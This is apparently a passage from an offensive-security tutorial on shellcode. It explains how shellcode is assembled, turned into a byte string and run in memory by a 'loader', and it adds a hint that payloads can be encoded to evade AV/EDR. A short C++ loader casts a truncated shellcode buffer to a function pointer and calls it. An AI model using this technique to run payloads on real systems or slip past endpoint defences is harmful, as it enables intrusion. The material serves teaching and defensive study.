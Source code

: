 It is then converted into a something that we can use: _**Linked, Compiled, and "Carved" out via `objdump`**_.

<figure><img src="../../.gitbook/assets/image (241).png" alt=""><figcaption></figcaption></figure>

After linking and compiling our Assembly code into a binary blob (object) and a program, we can obtain a byte string that we can implement into what is known as a "loader".

2. _**Converted into a Byte String**_

This performs the "bad stuff" obtained from the Assembly code from step one.

<figure><img src="../../.gitbook/assets/image (242).png" alt="" width="563"><figcaption></figcaption></figure>

3. Executing Shellcode in Memory via a "Loader"

This is the act of executing shellcode in memory.

{% hint style="info" %}
**Advanced:** _Payloads can be encrypted or encoded to evade AV/EDR solutions._
{% endhint %}

## "Loaders"

This is a lightweight program that has the ability to execute our shellcode in memory at a high-level and simple implementation.

An example "loader" in C++ can be found below.

`loader.cpp`:

```cpp
#include <Windows.h>
#include <time.h>

int main() {
    
    // Instantiate our shellcode buffer to "hold" our malicious shellcode
    CHAR shellcode[] =  
"\x48\x31\xc9\x48\x81\(...)";
    
    int(*loader)(); // Create a function pointer called loader
    loader = (int(*)())shellcode; // cast shellcode to be a function pointer
    loader(); // call the function which will exec our shellcode
    return 0; // return
}     
```
